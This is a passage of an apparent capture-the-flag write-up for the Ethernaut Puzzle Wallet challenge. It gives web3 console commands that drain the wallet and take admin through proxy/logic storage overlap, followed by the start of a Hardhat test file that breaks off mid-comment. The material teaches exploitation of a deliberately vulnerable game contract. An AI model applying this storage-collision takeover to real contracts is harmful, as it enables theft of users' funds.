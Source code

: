 If you were successful, the target contract should now have 0 balance and you should have an extra Ether in your wallet.

```javascript
await web3.eth.getBalance(instance) // should now be 0
```



Now that the PuzzleWallet is drained of funds, we can make ourselves the `admin` by leveraging the storage overlap between the Proxy and Logic contracts. This is similar to what we did in Step 1

```
await contract.setMaxBalance(player);
```



### Test Cases to Pass

```typescript
import { SignerWithAddress } from "@nomiclabs/hardhat-ethers/dist/src/signers";
import chai, { expect } from "chai";
import { solidity } from "ethereum-waffle";
import { BigNumber } from "ethers";
import { deployments, ethers, getNamedAccounts } from "hardhat";

import { PuzzleProxy, PuzzleWallet, PuzzleWalletFactory } from "../typechain";

chai.use(solidity);

describe("Hacker", () => {
  let hacker: SignerWithAddress;
  let puzzleWalletFactory: PuzzleWalletFactory;
  let puzzleWallet: PuzzleWallet;
  let puzzleProxy: PuzzleProxy;

  const oneETH = ethers.utils.parseEther("1");

  before(async () => {
    await deployments.fixture(["PuzzleWalletFactory"]);
    puzzleWalletFactory = await ethers.getContract("PuzzleWalletFactory");
    hacker = await ethers.getSigner((await getNamedAccounts()).hacker);
  });

  it("initialize a PuzzleWallet and setup the game", async () => {
    const tx = await puzzleWalletFactory.createInstance({
      value: oneETH,
    });
    const receipt = await tx.wait();
    if (receipt.events && receipt.events[0].args) {
      puzzleWallet = await ethers.getContractAt(
        "PuzzleWallet",
        receipt.events[0].args.wallet
      );
      puzzleProxy = await ethers.getContractAt(
        "PuzzleProxy",
        receipt.events[0].args.wallet
      );
    }

    // The admin of proxy should be factory.
    expect(await puzzleProxy.admin()).to.be.equal(puzzleWalletFactory.address);

    // The owner of wallet should be factory.
    expect(await puzzleWallet.owner()).to.be.equal(puzzleWalletFactory.address);
    // The maxBalance has been corrupted already.
    // @NOTE: Proxy is such...
```